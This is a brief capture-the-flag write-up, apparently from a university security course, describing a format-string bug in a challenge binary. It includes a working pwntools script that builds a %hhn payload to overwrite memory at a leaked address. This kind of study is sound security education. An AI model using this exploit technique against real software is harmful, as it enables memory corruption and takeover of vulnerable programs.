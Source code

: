 MEME
===========================

General overview of problems faced
-------------------------------------
Apart from understanding how format strings work, nothing in particular.

List of vulnerabilities
--------------------
- printf prints value of fgets (user input) without appropriate input sanitisation, allowing for arbitrary read and writes

Steps to exploit
------------------
- Identify offset by spamming b'AAAABBBB %p' and identifying when 'COMP6447' begins
- Construct format string payload that overwrites value in register found in previous step with desired value `2tRiViAl`

Script/Command used
------------------
```python

def exploit():
    P.recvuntil(b'at ')
    address = int(P.recvline().strip(), 16)
    log.info(f"address: {p64(address)}")

    P.recvuntil(b'Speak the phrase `')
    phrase = P.recvuntil(b'`')[:-1]
    log.info(f"Target value: {phrase}")

    P.recvuntil(b':')

    payload = b""
    written = 0

    writes = [(byte, i) for i, byte in enumerate(phrase)]
    writes.sort(key=lambda x: x[0])

    for idx, (byte, i) in enumerate(writes):
        to_write = (byte - (written)) % 0x100
        if to_write > 0:
            payload += f"%{to_write}c".encode()
            written += to_write
        # 8 corresponds to the offset until the buffer starts
        # add 11 to account for the length of the payload until the addresses
        payload += f"%{8 + 11 + idx}$hhn".encode() 

    padding_length = (8 - (len(payload) % 8)) % 8
    if padding_length:
        payload += b'A' * padding_length 

    for _, i in writes:
        payload += p64(address + i)

    P.sendline(payload)

    log.info(f"payload: {payload}")
    P.interactive()

```
